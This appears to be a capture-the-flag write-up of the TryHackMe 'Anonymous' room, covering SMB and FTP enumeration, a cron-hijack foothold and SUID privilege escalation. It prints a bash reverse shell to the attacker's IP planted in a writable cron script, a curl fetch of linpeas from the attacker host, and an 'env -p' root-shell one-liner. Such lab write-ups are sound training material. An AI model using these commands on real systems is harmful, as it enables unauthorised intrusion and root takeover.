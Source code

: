 ```yaml
---
title: TryHackMe Anonymous Room Walkthrough
date: 2025-10-31 18:00:00 +0100
categories: [Cybersecurity, Capture The Flag, TryHackMe, Writeups]
tags: [TryHackMe, Anonymous Room, SMB Enumeration, FTP Exploitation, Privilege Escalation]
render_with_liquid: false
---
```


TryHackMe — Anonymous Room Walkthrough
=====================================

Room Overview
-------------

- Difficulty: Medium
- Focus areas: SMB enumeration, FTP abuse, cron exploitation, SUID privesc
- Goal: Capture `user.txt` and `root.txt`

Initial Recon
-------------

I kicked things off with a simple port scan:

```
nmap -sC -sV [target_IP]
```

Open ports came back as 21, 22, 139, and 445. SSH (`22`) was closed off pending credentials, so SMB (`139/445`) and FTP (`21`) became the obvious entry points.

SMB Enumeration
---------------

Anonymous SMB access was enabled:

```
smbclient -L /[target_IP]/ -N
```

The `pics` share allowed read access. I pulled the files locally but they were just benign images. Nothing to extract via `strings` or `steghide`.

FTP Enumeration & Foothold
--------------------------

Anonymous FTP logins were also allowed:

```
ftp [target_IP]
Name: anonymous
Password: [anything]
```

Inside `/scripts` I found three files:

- `to_do.txt` – a small note hinting at housekeeping tasks
- `clean.sh` – bash script that logs “nothing to delete”
- `removed_files.log` – empty, confirming the cleanup script runs via cron

Because the FTP share was writable, I replaced `clean.sh` with a reverse shell payload:

```
#!/bin/bash
bash -i >& /dev/tcp/[My_IP]/1234 0>&1
```

After uploading the modified script, I started a listener with `rlwrap nc -lvn 1234`. A few minutes later, the cron job executed and I caught a shell as the service user.

Shell Stabilisation
-------------------

I upgraded the shell for quality-of-life improvements:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
```

From there I grabbed `user.txt` in the home directory.

Privilege Escalation
--------------------

To get `linpeas.sh` onto the box, I spun up a quick web server on my attacking host with `python3 -m http.server 8000` and fetched the script from the reverse shell using `curl http://[My_IP]:8000/linpeas.sh -o /tmp/linpeas.sh`. After marking it executable, I ran it to enumerate privilege escalation paths.

The standout finding was an unusual SUID binary, `env`, owned by root. `GTFOBins` confirmed it could be abused to overwrite files as root:

```
/usr/bin/env /bin/bash -p
```

With the resulting root shell, I recovered `root.txt` from `/root`.



